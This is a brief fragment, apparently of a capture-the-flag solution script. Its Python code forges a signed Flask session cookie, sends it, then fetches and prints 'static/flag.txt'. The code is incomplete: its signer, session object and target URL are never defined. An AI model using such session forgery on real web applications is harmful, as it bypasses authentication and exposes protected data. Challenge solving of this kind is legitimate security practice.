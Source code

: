 ```python
s.cookies['session'] = signer.sign(f"/.png_/app/flask_session_{int(datetime.now().timestamp())}").decode()

r = s.get(URL)
r = requests.get(URL + "static/flag.txt")
print(r.text)
```